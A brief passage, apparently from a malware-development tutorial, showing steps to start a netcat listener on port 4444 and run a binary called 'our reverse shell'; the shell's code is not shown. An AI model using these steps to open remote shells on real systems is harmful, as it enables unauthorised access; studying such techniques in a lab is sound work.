 Then, prepare netcat listener in the same host:     

```bash
nc -l -p 4444
```

![malware](/assets/images/163/2025-07-05_19-34.png){:class="img-responsive"}    

Then, run our reverse shell:    

```bash
./hack
```
